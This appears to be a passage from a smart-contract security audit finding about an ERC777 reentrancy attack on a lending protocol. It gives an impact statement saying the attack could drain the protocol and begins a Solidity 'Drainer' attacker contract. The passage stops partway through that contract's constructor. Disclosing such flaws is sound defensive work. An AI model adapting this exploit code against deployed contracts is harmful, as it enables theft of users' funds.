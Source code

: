 ## Impact
Due to the nature of the attack, the fact that it can be exploited in multiple ways, and the possibility of utilizing flashloans as well as draining multiple Accounts, this attack has the potential to drain the protocol. It is also extremely profitable, easy to execute, and requires minimal initial funds from the attacker.  

## Code Snippet

Necessary additions to setupContracts:
- A mock ERC1820Registry contract 
- A mock ERC777 with the address of the locally deployed registry

Example attacker implementation
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.15;

import {IAccountManager} from "../../interface/core/IAccountManager.sol";
import {IRegistry} from "../../interface/core/IRegistry.sol";
import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

interface IERC1820Registry {
	function setInterfaceImplementer(
		address _addr,
		bytes32 _interfaceHash,
		address _implementer
	) external;

}

contract Drainer {
	uint256 borrowAmount;
	bool attacked;

	address admin;
	IERC20 erc777;
	address account;
	address weth;

	IAccountManager accountManager;
	IRegistry accountRegistry;
	IERC1820Registry receiverRegistry;

	constructor(
		address _accountManager,
		address _accRegistry,
		address _recRegistry,
		address _erc777,
		address _weth
	) {
		admin = msg.sender;
		erc777 = IERC20(_erc777);
		accountManager = IAccountManager(_accountManager);
		accountRegistry = IRegistry(_accRegistry);
		receiverRegistry = IERC1820Registry(_recRegistry);
		weth = _weth;

		// Register contract as a receiver
		receiverRegistry.setInterfaceImplementer(
			address(this),
			keccak256("ERC777TokensRecipient"),
			address(this)
```